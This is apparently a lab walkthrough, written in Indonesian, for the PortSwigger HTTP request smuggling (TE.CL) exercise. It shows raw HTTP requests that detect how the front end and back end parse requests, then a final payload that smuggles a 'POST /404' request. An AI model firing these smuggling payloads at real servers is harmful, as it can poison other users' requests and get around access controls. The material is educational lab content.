






# HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

Untuk menyelesaikan lab ini, selundupkan permintaan ke server back-end, sehingga permintaan selanjutnya untuk `/` (the web root) memicu respons 404 Not Found. 



## Deteksi dan send dan mendaptakn Response 400 bad request

```http
POST / HTTP/1.1
Host: 0a3100bb0368a8c385f22cd3002b00ac.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X

```



**Penjelasan :**



Alasannya adalah ketika begitu frontend menerima pesan ini dan menggunakan `Transfer-Encoding: chunked`,dari membaca bahwa ukuran chunk pertama adalah 3 byte abc,tetapi untuk ukuran chunk berikutnay ia mengharapkan angka heksadesimal,tetapi malah membaca huruf X yang merupakan ukuran chunk yagn tidak valid.Jadi itu benar-benar salah,Request kita di tolak ,dan itulah mengapa kita tahu kalau front end menggunakan `Transfer-Encoding: chunked` 

Sekarang mari kita cari tahu apa yagn di gunakan backend ,dengan payload berikut:

```http
POST / HTTP/1.1
Host: 0a3100bb0368a8c385f22cd3002b00ac.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```



Bisa kita lihat disini untuk response nya ini delay dan juga mendapatkan error `Server Error: Communication timed out`




Sekarang kita sudah mengetahui kalau frontend mengunakan `Transfer-Encoding: chunked`  dan backend menggunakan `Content-Length`

## Attack

send 2 kali

```http
POST / HTTP/1.1
Host: 0a3100bb0368a8c385f22cd3002b00ac.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

